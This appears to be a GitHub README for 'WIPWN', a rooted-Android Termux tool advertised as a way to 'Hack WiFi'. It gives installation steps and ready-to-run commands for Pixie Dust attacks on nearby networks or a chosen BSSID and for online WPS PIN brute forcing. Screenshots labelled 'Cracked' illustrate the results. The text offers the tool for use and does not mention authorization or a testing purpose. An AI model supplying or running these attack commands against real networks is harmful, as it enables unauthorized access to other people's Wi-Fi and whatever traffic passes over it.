 <h1 align="center">WIPWN</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

#### Start

<p align="center"><img src="https://raw.githubusercontent.com/trhacknon/trhacknon.github.io/main/wepwn/.assets/demo2.png"></p>

#### Cracked

<p align="center"><img src="https://raw.githubusercontent.com/trhacknon/trhacknon.github.io/main/wepwn/.assets/demo3.png"></p>

#### Autostart if failed 

<p align="center"><img src="https://raw.githubusercontent.com/trhacknon/trhacknon.github.io/main/wepwn/.assets/demo4.png"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/trhacknon/wipwn
cd wipwn
chmod +x wipwn.py
```
#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
MIT License

Copyright (c) 2022 Toxinum.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/trhacknon/wepwn"> Here </a>

##### Modify History : brain of a good guy => anonymous => trhacknon (anonymous)
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/" target="blank"><img align="center" src="https://raw.githubusercontent.com/trhacknongithub-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="trhacknon" height="30" width="40" /></a>
<a href="https://twitter.com/" target="blank"><img align="center" src="https://raw.githubusercontent.com/trhacknon/github-profile-readme-generator/master/src/images/icons/Social/twitter.svg" alt="trhacknon" height="30" width="40" /></a>
<a href="https://fb.com/" target="blank"><img align="center" src="https://raw.githubusercontent.com/trhacknon/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="trhacknon" height="30" width="40" /></a>
<a href="https://instagram.com" target="blank"><img align="center" src="https://raw.githubusercontent.com/trhacknon/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="trhacknon" height="30" width="40" /></a>
</div>
